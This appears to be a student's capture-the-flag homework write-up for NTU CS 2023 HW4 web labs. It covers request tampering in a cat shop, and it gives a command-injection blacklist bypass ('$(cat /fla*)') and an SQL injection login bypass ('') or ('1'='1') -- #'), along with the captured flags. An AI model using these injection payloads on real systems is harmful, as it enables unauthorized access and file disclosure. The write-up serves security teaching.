 ```yaml
---
title: NTU CS 2023 HW4 Write Up
tags: [eductf, Web]

category: "Security/Course/NTU CS/Web"
---
```


# NTU CS 2023 HW4 Write Up


## Lab-Cat Shop
Flag: `FLAG{omg_y0u_hack3d_th3_c4t_sh0p!}`

### 解題流程與思路
1. 這一題很簡單，只要觀察送出的封包就可以知道每一個品項都是按照順序的(可預期的號碼)，所以只要把品項改成我們要的就可以成功query，如下圖，原本FLAG的column反白無法點選
    ![圖片](https://hackmd.io/_uploads/SJ3bD8x_T.png)
    但因為送出的item number可預期，所以還是能夠正常query
    ![圖片](https://hackmd.io/_uploads/HJ6yDUe_a.png)
2. 接著看下一個packet就知道連我們的餘額以及支付金額都是裸奔的狀態，所以可以直接更改拿到flag
    ![圖片](https://hackmd.io/_uploads/Sko9wLldp.png)
    ![圖片](https://hackmd.io/_uploads/S1CovLldp.png)

## Lab-DNS Lookuper
Flag: FLAG{Y0U_$(Byp4ssed)\_th3_\`waf\`}

### 解題流程與思路
Use <font color="FF0000">**`$`** or **\`**</font> string to bypass blacklist
Payload: 
`'$(cat /fla*)'`
`'`cat /fl\*g\*`'`

## Lab-Log me in
Flag: `FLAG{b4by_sql_inj3cti0n}`

### 解題流程與思路
* Payload → `') or ('1'='1') -- #`
SELECT * FROM admin WHERE (username='') or ('1'='1') -- #') AND (password='MTIz')

## Lab-Jinja2 SSTI
Flag: `FLAG{ssti.__class__.__pwn__}`

### 解題流程與思路
